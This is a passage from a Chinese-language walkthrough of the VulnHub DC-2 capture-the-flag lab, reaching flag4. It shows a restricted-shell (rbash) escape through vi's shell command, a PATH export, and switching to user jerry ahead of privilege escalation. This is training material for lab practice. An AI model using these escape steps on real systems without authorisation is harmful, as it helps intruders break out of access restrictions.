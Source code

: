 可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/11.png)

ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/12.png)

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到您已经做到了这一点-但您还没有回家。

您仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-您现在就一个人了。 :-)

继续-git outta here !!!!
```
